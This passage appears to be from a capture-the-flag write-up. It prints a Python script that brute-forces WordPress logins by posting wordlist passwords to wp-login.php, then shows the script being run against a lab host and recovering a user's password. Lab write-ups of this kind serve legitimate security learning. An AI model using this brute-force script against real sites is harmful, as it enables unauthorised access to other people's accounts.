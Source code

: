 ```python
gray = Fore.LIGHTBLACK_EX
reset = Fore.RESET

def login(user, passwd):
    data={
            'log':user,
            'pwd':passwd,
            'wp-submit':'Log+In'
            }

    try:
        r = requests.post(url, data=data)
        return r.text
    except requests.exceptions.RequestException as e:
        raise SystemExit(e)


wordlist = open(password_file).read().splitlines()

def checkLogin():
    for passwd in wordlist:
        if "ERROR" in login(user,passwd):
            print(f"{gray}Trying => {user}:{passwd}{reset:20}", end="\r")
        else:
            print(f"{green}Found => {user}:{passwd}{reset:20}")
            break

if users_file:
    users = open(users_file).read().splitlines()
    for user in users:
        checkLogin()
elif user:
    checkLogin()
```

We run the script as shown below. 

```console
root@kali:~$ python3 wpforce.py --url http://wordy/wp-login.php -L users.txt -P passwords.txt 
Found => mark:helpdesk01
```

In the obtained result we find mark's password, and log in.
